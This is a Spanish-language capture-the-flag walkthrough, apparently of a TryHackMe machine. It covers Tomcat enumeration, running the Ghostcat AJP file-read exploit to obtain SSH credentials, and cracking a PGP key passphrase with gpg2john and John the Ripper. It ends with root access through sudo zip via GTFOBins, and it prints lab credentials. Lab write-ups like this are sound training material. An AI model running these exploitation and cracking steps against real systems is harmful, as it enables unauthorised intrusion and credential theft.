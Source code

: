 Hacemos el escaneo de nmap:
![[Pasted image 20230816112121.png]]
Vamos a ver la web que corre por el puerto 8080; y se trata de un tomcat donde vemos la versión:
![[Pasted image 20230816112215.png]]
Si miramos por internet, vemos que tenemos un exploit para esta versión:
![[Pasted image 20230816112319.png]]
Y aquí tenemos la PoC:
![[Pasted image 20230816112501.png]]
Que nos lleva a este otro repositorio:
![[Pasted image 20230816112516.png]]
Nos descargamos el exploit:
![[Pasted image 20230816112539.png]]
Vemos en las instrucciones del exploit como usarlo, donde parece que podremos leer archivos internos de la máquina:
![[Pasted image 20230816112650.png]]
Ejecutamos el comando exactamente igual a como vemos en las instrucciones:
```bash
python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py -p 8009 -f WEB-INF/web.xml 10.10.71.74
```
Y nos devuelve unas credenciales ssh:
```bash
skyfuck:8730281lkjlkjdqlksalks
```
![[Pasted image 20230816113647.png]]
Y conseguimos entrar:
![[Pasted image 20230816123654.png]]
Dentro de este mismo directorio nos encontramos con dos archivos, donde el .asc es la clave que debo importar para abrir el credential.pgp:
![[Pasted image 20230816123818.png]]
Una de ellas que podemos romper con john the ripper:
![[Pasted image 20230816123850.png]]
Nos traemos ambos archivos a nuestra máquina local utilizando scp para enviárnoslo vía ssh:
```bash
scp skyfuck@10.10.101.24:credential.pgp .
scp skyfuck@10.10.101.24:tryhackme.asc .
```
![[Pasted image 20230816124241.png]]
Ahora debemos ejecutar gpg2john del fichero tryhackme.asc para extraer el hash y poder crackearlo:
```bash
gpg2john tryhackme.asc >> hash
```
![[Pasted image 20230816124513.png]]
Y ahora si hacemos un ataque de fuerza bruta, vemos que nos extrae la contraseña, la cual es alexandru:
![[Pasted image 20230816124606.png]]
Y ahora que ya tenemos la contraseña para desencriptar el tryhackme.asc, ya podemos usarla para abrir el credential.gpg, donde debemos de ejecutar los siguientes comandos:
```bash
gpg --decrypt credential.pgp # Esto dará error.
gpg --import tryhackme.asc # Importamos la clave.
gpg --decrypt credential.pgp # Ahora ya no dará error.
```
![[Pasted image 20230816124823.png]]
Y el resultado es el siguiente:
```bash
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
Al tener la contraseña del usuario merlin, podemos acceder a él:
![[Pasted image 20230816124949.png]]
Y siendo este usuario vemos que podemos ejecutar zip como root:
![[Pasted image 20230816125011.png]]
Por tanto, miramos en gtfobins y vemos esto al buscar por el binario zip:
![[Pasted image 20230816125036.png]]
Ejecutamos la primera y segunda línea y ya somos root:
![[Pasted image 20230816125200.png]]
Con el comando find buscamos las flags de user y root y las encontramos:
![[Pasted image 20230816125323.png]]
